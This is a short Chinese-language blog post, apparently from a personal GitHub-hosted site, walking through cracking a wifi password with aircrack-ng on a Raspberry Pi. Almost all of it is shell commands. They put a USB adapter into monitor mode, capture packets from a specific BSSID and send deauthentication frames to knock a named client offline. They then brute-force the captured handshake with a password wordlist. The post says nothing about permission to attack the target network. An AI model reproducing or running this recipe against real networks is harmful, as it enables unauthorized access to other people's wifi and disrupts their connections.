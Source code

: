 ```yaml
---
title: 用aircrack-ng破解wifi密码
author: 黄俭
date: '2020-07-02'
slug: aircrack-ng-wifi-crack
categories:
  - Computer
tags:
  - Linux
---
```


## 准备阶段
 - 外置USB网卡，我用的是老古董网卡，D-Link的AirPlus G DWL-G122.
 - 安装aircrack-ng。我是在CentOS 7 for RASPBERRY PI上编译安装，前期要装的包有......。
 
## 实战阶段
1. 杀死一些影响监听的进程
```shell
 # airmon-ng check kill
```

1. 将无线网卡设定为监听状态
```shell
 # airmon-ng start wlp1s0u1u4
```
执行结果截图
![图1 airmon-ng启动网卡的监听状态](http://123.56.98.124:8080/picLIB/upload/15/2020-07-02%2011-47-27%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE.png)

1. 查看监听网卡名
```shell
 # iwconfig
```

1. 开始监听
```shell
 # airodump-ng wlp2s0mon
```

1. 选择破解目标

1. 开始抓包
```shell
 # airodump-ng wlp3s0mon --bssid FE:7C:02:54:57:AD -c 4 -w ~/wifi_hack/HR658
```

1. 进行断线攻击
```shell
 # aireplay-ng -0 10  -a FE:7C:02:54:57:AD -c EC:89:14:68:61:17  wlp3s0mon
```
1. 检查利用密码词典暴力破解
```shell
 $ aircrack-ng data-01.cap -w ./crackstation-human-only.txt
```
1. 用screen命令挂机执行
```shell
 $ screen -S wifihack aircrack-ng data-01.cap -w ./crackstation-human-only.txt
```
1. 唤回screen
```shell
 $ screen -ls
 $ screen -r wifihack #id
```